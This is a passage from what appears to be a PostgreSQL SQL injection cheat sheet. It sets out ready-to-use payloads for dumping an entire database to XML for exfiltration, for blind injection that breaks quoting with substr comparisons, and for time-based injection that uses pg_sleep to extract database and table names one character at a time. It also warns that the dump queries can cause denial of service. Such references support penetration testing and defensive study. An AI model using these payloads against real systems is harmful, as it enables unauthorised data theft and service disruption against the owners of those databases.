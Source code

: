 The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```sql
SELECT database_to_xml(true,true,''); -- dump the current database to XML
SELECT database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

### PostgreSQL Blind With Substring Equivalent

| Function    | Example                                         |
| ----------- | ----------------------------------------------- |
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`           |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`        |
| `SUBSTRING` | `SUBSTRING('foobar' FROM <START> FOR <LENGTH>)` |

Examples:

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -- TRUE
' and substr(version(),1,10) = 'PostgreXXX' and '1  -- FALSE
```

## PostgreSQL Time Based

### Identify Time Based

```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

### Database Dump Time Based

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

### Table Dump Time Based

```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

